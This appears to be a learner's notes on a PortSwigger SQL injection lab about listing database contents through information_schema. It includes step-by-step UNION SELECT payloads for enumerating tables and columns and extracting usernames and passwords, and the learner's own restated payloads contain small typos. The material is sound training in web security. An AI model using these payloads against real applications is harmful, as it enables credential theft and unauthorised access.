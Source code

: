 


Most database types (except Oracle) have a set of views called the information schema. This provides information about the database.

For example, you can query `information_schema.tables` to list the tables in the database:

`SELECT * FROM information_schema.tables`

This returns output like the following:

`TABLE_CATALOG TABLE_SCHEMA TABLE_NAME TABLE_TYPE ===================================================== MyDatabase dbo Products BASE TABLE MyDatabase dbo Users BASE TABLE MyDatabase dbo Feedback BASE TABLE`

This output indicates that there are three tables, called `Products`, `Users`, and `Feedback`.

You can then query `information_schema.columns` to list the columns in individual tables:

`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`

This returns output like the following:

`TABLE_CATALOG TABLE_SCHEMA TABLE_NAME COLUMN_NAME DATA_TYPE ================================================================= MyDatabase dbo Users UserId int MyDatabase dbo Users Username varchar MyDatabase dbo Users Password varchar`

This output shows the columns in the specified table and the data type of each column.



## Lab: SQL injection attack, listing the database contents on non-Oracle databases

PRACTITIONER

LABSolved

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

 ####  Hint

[](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[ACCESS THE LAB](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-examining-the-database-in-sql-injection-attacks/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle#)

 ####  Solution

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter:
    
    `'+UNION+SELECT+'abc','def'--`
3. Use the following payload to retrieve the list of tables in the database:
    
    `'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`
4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table:
    
    `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--`
6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:
    
    `'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--`
8. Find the password for the `administrator` user, and use it to log in.


----
----

note


![[../../../images/Pasted image 20231024221107.png]]




# to list the tables
select * from information_schema.tables

 This returns output like the following:
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE

This output indicates that there are three tables, called Products, Users, and Feedback. 

`in payload format`

'union select table_name , NULL from information_schema.tables --

`this upper commands displays all the table name , now we have to select any one of the table which seems fruitful`

####lets say table selected is 'users_bondfq'


----

now we have to find the columns in the column

payload format

`union select column_name , NULL form information_schema.columns where table_name = 'users_bondfq' --`


-----

now we have to find the select fruitful column

payload format
`union select column1, column2 from table_name --`



